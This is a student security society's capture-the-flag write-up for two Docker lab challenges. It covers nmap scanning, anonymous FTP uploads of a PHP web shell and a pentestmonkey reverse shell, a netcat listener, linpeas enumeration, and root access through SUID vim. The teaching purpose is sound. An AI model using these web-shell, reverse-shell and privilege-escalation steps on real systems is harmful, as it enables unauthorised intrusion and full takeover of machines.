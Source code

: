 ```yaml
---
title: "ComSec Introduction Writeup"
date: 2020-10-21T12:40:28+01:00
draft: false
description: "A writeup for the introduction to ComSec challenges."

tags: ["welcome", "TryHackMe", "Nmap", "writeup"]
categories: ["Academic Year 2020-21"]

author: "Tiago Pascoal"
---
```


## Nmap 1
Welcome to ComSec's first challenge! This week we will be targeting a docker container, to start it, issue the following two commands:

```sh
$ wget https://cov-comsec.github.io/posts/welcome_nmap/c1/docker-compose.yaml
$ sudo docker-compose up
[sudo] password for kali: 
WARNING: Found orphan containers (kali_evilweb_1) for this project. If you removed or renamed this service in your compose file, you can run this command with the --remove-orphans flag to clean it up.
Recreating kali_ftp_1  ... done
Recreating kali_smtp_1 ... done
Starting kali_ssh_1    ... done
Creating kali_web_1    ... done
Attaching to kali_web_1, kali_ssh_1, kali_smtp_1, kali_ftp_1
ftp_1   | Starting Pure-FTPd:
ftp_1   |   pure-ftpd  -c 30 -C 10 -l puredb:/etc/pure-ftpd/pureftpd.pdb -j -R -P localhost -p 30000:30059  
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | AH00558: apache2: Could not reliably determine the server's fully qualified domain name, using 192.168.42.4. Set the 'ServerName' directive globally to suppress this message
web_1   | [Fri Oct 22 23:08:37.325178 2021] [mpm_prefork:notice] [pid 1] AH00163: Apache/2.4.25 (Debian) PHP/7.3.4 configured -- resuming normal operations
web_1   | [Fri Oct 22 23:08:37.326184 2021] [core:notice] [pid 1] AH00094: Command line: 'apache2 -D FOREGROUND'
```
**NB:** Despite the output, the target machine will be launched at 192.168.42.1!

### Nmap Scan
Now the point of this week is to learn Nmap, so lets start a scan with service detection and scripting turned on:

```sh
$ nmap -sV -sC 192.168.42.1 -T4
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 19:14 EDT
Nmap scan report for 192.168.42.1
Host is up (0.00021s latency).
Not shown: 996 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Pure-FTPd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 127.0.0.1 is not the same as 192.168.42.1
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 f5:f2:1d:64:04:1b:fd:92:22:7e:6b:71:b7:f4:72:49 (RSA)
|   256 4b:80:f8:74:c0:8d:aa:40:fc:38:02:16:9f:1c:3b:bd (ECDSA)
|_  256 a8:08:e5:35:12:d6:a4:cc:74:8f:4c:9c:02:62:f4:f1 (ED25519)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: 8d1d2dc2ddf0.lan, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=8d1d2dc2ddf0
| Subject Alternative Name: DNS:8d1d2dc2ddf0
| Not valid before: 2020-08-14T10:33:23
|_Not valid after:  2030-08-12T10:33:23
|_ssl-date: TLS randomness does not represent time
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/ftp-uploads
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: Host:  8d1d2dc2ddf0.lan; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

It looks like we have 4 ports open. Let's check out the [web server](http://192.168.42.1).

From the scan, we can see that there is a directory named [/ftp-uploads](http://192.168.42.1) and we can see that a flag file has been stored.

![ftpanonymous](imgs/ftp_anonymous.png)

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.

```bash
ftp 192.168.42.1
```
You will be asked to input the Name. You just have to type anonymous to connect.
If you do a "ls" you will be able do see the a file called FTPflag.txt which is the same file you found in the website. You type help you will see as the commands that you can use inside the ftp, we want to upload p0wnyshell so that we can get access to the machine through the browser. For now you just need to know that we are using p0wnyshell as our reverse-shell. So "ctrl+c" to stop the ftp connection clone p0wny shell repository [P0wny-Shell](http://github.com/flozz/p0wny-shell.git).
```bash
cd p0wny-shell
ftp 192.168.42.1
put shell.php
```
The last command is going to upload our shell.
If you go back to your browser and back to "/ftp-uploads/anonymous" you will see the file shell.php in there clicked and you will have p0wny-shell.![p0wny-shell](imgs/pwnyshell.png) So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
```bash
find / -name "*.txt" 2>/dev/null
```
![findcommand](imgs/find_command.png)

Congratulations! Lets move to docker2

## Nmap 2

To start this challenge, use:

```sh
wget https://cov-comsec.github.io/posts/welcome_nmap/c2/docker-compose.yaml
docker-compose up
```

So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports from the [StandardPorts](imgs/commonports.pdf)

```bash
sudo nmap -sC -sV 192.168.42.1 -p-
```

![nmap2scan](imgs/nmap_2_scan.png)

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080".
So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
```bash
ftp 192.168.42.1 2121
```
Again use anonymous as login. 
In this challegne we introduced privesc so we will need a scrip to enumerate all te services that are being run on the machine, file permissions, file types, sym links ,etc.
There are 2 that are I know, LinEnum and linpeas. I prefer [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh){target=_blank}, instead of cloning the repository what I did is I open my prefered text editor on my kali box and I just copy/pasted the script. Then I stopped the ftp connection I cd to the directory where I have linpeas, I started the connection again and use the "put linpeas.sh" to copy linpeas to the machine. Besides linpeas we will need a php reverse shell, cause p0wny shell is not going to work in this challenge. Another good resource to put in your bookmarks, [PentestMonkeys](https://github.com/pentestmonkey/php-reverse-shell){target=_blank} I did the same process with both linpeas and the [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php){target=_blank} so open your editor and "ctrl+c / ctrl+v" put hte ip of your kali box in the line where you see "" \\change this" and upload the file to the ftp.
So right now you should see something like this 

![ftpfodler](imgs/uploads2.png)

Which means you ready. Open a terminal and start netcat.
```bash
nc -lvnp 1234
```
Go to "192.168.42.1:8080/ftp-uploads/php-reverse-shell.php" the site should be loading for ever. If you go back to your terminal you should have access to the box.
Tip: everytime I get a reverse shell I try to find out what user I am.
```bash
whoami
```
Lets not forget we are in /var/www , we need to copy our linpeas script to tmp folder.
```bash
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh
```
Take a look at the output and try to find the SUID section. If you don't know SUID is a type of permission that you have on linux that let's the user run the file or binary. 

![linpeas](imgs/linpeas.png)

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called ["GTFOBINS"](https://gtfobins.github.io/){target=_blank} which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command. 
```
:!/bin/sh
#or
vim -c ':!/bin/sh'
```
Now you are root!
```bash
cd /root
cat flag.txt
```
Congrats!
Any doubts contact ComSec Committee on discord.
Don't to submit your flags in [CTFD](https://cueh-comsec.ctfd.io/)
